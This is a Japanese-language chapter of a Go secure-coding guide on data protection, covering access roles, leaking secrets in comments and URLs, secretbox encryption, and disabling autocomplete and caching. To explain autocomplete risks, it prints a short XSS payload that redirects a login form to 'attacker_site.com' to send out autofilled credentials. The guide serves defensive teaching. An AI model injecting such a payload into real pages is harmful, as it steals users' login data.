 データの保護
===============

現在、データの保護はセキュリティ全般で最も重要なことの 1 つです。
以下のようになってしまったら困りますよね。

![All your data are belong to us](files/cB52MA.jpeg)

Web アプリケーションのデータは保護される必要があります。そのため、このセクションではデータを保護するさまざまな方法について見ていきます。

最初に取り組むべきことの一つは、ユーザーそれぞれに対して適切な権限を実装し、本当に必要な機能だけにアクセスを制限することです。

たとえば、次のようなユーザー・ロールを持つ単純なオンライン・ストアを考えてみましょう。

* セールスユーザー: カタログの閲覧のみ許可
* マーケティングユーザー: 統計情報の確認が可能
* 開発者： ページと Web アプリケーションの設定変更を許可する

また、システム（Web サーバー）構成において、正しいパーミッションを定義するべきです。

最初にやるべきことは各ユーザーに適切なロールを定義することです。

役割の分離とアクセス制御については、さらに、[アクセス制御][5]で説明します。

## 機密情報の削除

機密情報を含む一時ファイルやキャッシュファイルは、不要になり次第すぐに削除しましょう。
まだ必要な場合は、保護された場所に移動させるか、暗号化しましょう。

### コメント

開発者がソースコードに ToDo リストのようなコメントを残すことがあります。
最悪の場合、開発者がクレデンシャルを残すこともあります。

```go
// Secret API endpoint - /api/mytoken?callback=myToken
fmt.Println("Just a random code")
```

上記の例では、開発者がコメント内にエンドポイントの情報を残しています。このエンドポイントが守られていない場合、悪意あるユーザーに利用されてしまうかもしれません。

### URL

HTTP GET メソッドで機密情報を渡すことは、次のような理由で Web アプリケーションの脆弱性を残すことになります。

1. HTTPS を使用していない場合、MITM 攻撃によりデータを傍受される可能性があります。
2. ブラウザの履歴には、ユーザーの情報が保存されています。URL に
   セッション ID、ピン、トークンなど、有効期限のない（あるいはエントロピーの低い）ものが含まれていると、それらを盗まれる可能性があります。
3. 検索エンジンは、ページ内で発見された URL を保存する。
4. HTTP サーバー（例：Apache、nginx）は、通常、要求された URL を、クエリ文字列を含めて、暗号化されていない状態でログファイル (例： `access_log`) に書き込みます。

```go
req, _ := http.NewRequest("GET", "http://mycompany.com/api/mytoken?api_key=000s3cr3t000", nil)
```

Web アプリケーションが `api_key` を使って、第三者の Web サイトから情報を取得しようとした場合に、もしも同一のネットワーク内で誰かが盗聴していたら、もしくはプロキシを使っていたとしたら、その情報は盗まれるかもしれません。これは HTTPS を使っていないためです。

GET で渡されたパラメータ（クエリ文字列）は、HTTP と HTTPS のどちらを使用しているかに関係なく、ブラウザの履歴やサーバーーのアクセスログにきれいに残ることに注意してください。

HTTPS は、クライアントとサーバー以外の第三者が、やりとりしたデータを取得できないようにするための方法です。
`api_key` のような機密データは、可能な限りリクエストボディか何らかのヘッダに格納する必要があります。同様に、可能な限り 1 回限りのセッション ID やトークンを使用します。

### 情報は力なり

本番環境上のアプリケーションやシステムのドキュメントは常に削除しましょう。
ドキュメントによっては、Web アプリケーションを攻撃するために使われる可能性のあるバージョンや機能を明らかしてしまうかもしれません。
(例： Readme, Changelog, etc.)

開発者は、ユーザーが使わなくなった機密情報を削除できるようにすべきです。
たとえば、ユーザーが自分のアカウントの期限切れのクレジットカードを削除したい場合、Web アプリケーションはそれを許可すべきです。

不要になった情報は、すべてアプリケーションから削除しなければなりません。

#### 暗号化がカギ

機密性の高い情報はすべて Web アプリケーション内で暗号化する必要があります。
軍用レベルの [Go で利用可能な暗号化][2] を使用してください。詳細については
[暗号に関するプラクティス][3]のセクションを参照してください。

あなたのコードをほかの場所に実装する必要がある場合は、バイナリをビルドして共有してください。リバースエンジニアリングを防ぐ安心安全な術はないためです。

コードにアクセスするための異なるパーミッションを用意し、ソースコードへのアクセスを制限することは最良の方法です。

パスワードや接続文字列、平文やセキュリティ的に不十分な形式の機密情報をクライアント側とサーバー側の両方で保存しないでください。（データベース接続文字列を保護する方法については、[データベースセキュリティ][4]の例を参照してください）。
安全でない形式（たとえば、Adobe Flash やコンパイルされたコード）での埋め込みも含みます。

以下は、外部パッケージを使って Go で暗号化するシンプルな例です。
`golang.org/x/crypto/nacl/secretbox`:

```go
// Load your secret key from a safe place and reuse it across multiple
// Seal calls. (Obviously don't use this example key for anything
// real.) If you want to convert a passphrase to a key, use a suitable
// package like bcrypt or scrypt.
secretKeyBytes, err := hex.DecodeString("6368616e676520746869732070617373776f726420746f206120736563726574")
if err != nil {
    panic(err)
}

var secretKey [32]byte
copy(secretKey[:], secretKeyBytes)

// You must use a different nonce for each message you encrypt with the
// same key. Since the nonce here is 192 bits long, a random value
// provides a sufficiently small probability of repeats.
var nonce [24]byte
if _, err := rand.Read(nonce[:]); err != nil {
    panic(err)
}

// This encrypts "hello world" and appends the result to the nonce.
encrypted := secretbox.Seal(nonce[:], []byte("hello world"), &nonce, &secretKey)

// When you decrypt, you must use the same nonce and key you used to
// encrypt the message. One way to achieve this is to store the nonce
// alongside the encrypted message. Above, we stored the nonce in the first
// 24 bytes of the encrypted text.
var decryptNonce [24]byte
copy(decryptNonce[:], encrypted[:24])
decrypted, ok := secretbox.Open([]byte{}, encrypted[24:], &decryptNonce, &secretKey)
if !ok {
    panic("decryption error")
}

fmt.Println(string(decrypted))
```

出力は以下です。

```
hello world
```

## 不要なものは無効にする

攻撃ベクトルを減らすためのもう一つの簡単で効率的な方法は、システム上で不要なアプリケーションやサービスを無効にすることです。

### オートコンプリート

[Mozilla のドキュメント][1]によると、次のようにしてフォーム全体のオートコンプリートを無効にできます。


```html
<form method="post" action="/form" autocomplete="off">
```

特定のフォーム要素に対しては以下のようにします。

```html
<input type="text" id="cc" name="cc" autocomplete="off">
```

特に、ログインフォームのオートコンプリートを無効にする場合に便利です。ログインページに XSS ベクタが存在する場合を想像してみてください。
悪意のあるユーザーが次のようなペイロードを作成した場合、

```javascript
window.setTimeout(function() {
  document.forms[0].action = 'http://attacker_site.com';
  document.forms[0].submit();
}
), 10000);
```

これは、オートコンプリートされたフォームフィールドを `attacker_site.com` に送信します。

### キャッシュ

機密情報を含むページのキャッシュ制御は無効にする必要があります。
次のスニペットに示すように、対応するヘッダフラグを設定することで実現できます。

```go
w.Header().Set("Cache-Control", "no-cache, no-store")
w.Header().Set("Pragma", "no-cache")
```


`no-cache` 値は、キャッシュされた応答を使用する前にサーバーーで再検証するよう、ブラウザに指示します。これはブラウザにキャッシュしないように指示するものではありません。
> 訳者注：ブラウザだけに言及してますが、CDN などのプロキシキャッシュも含みます。

一方、`no-store` 値はキャッシュを無効にするためのものです。
リクエストやレスポンスのいかなる部分も保存させません。

`Pragma` ヘッダは HTTP/1.0 リクエストをサポートするために存在します。

[1]: https://developer.mozilla.org/en-US/docs/Web/Security/Securing_your_site/Turning_off_form_autocompletion
[2]: https://godoc.org/golang.org/x/crypto
[3]: ../cryptographic-practices/README.md
[4]: ../database-security/README.md
[5]: ../access-control/README.md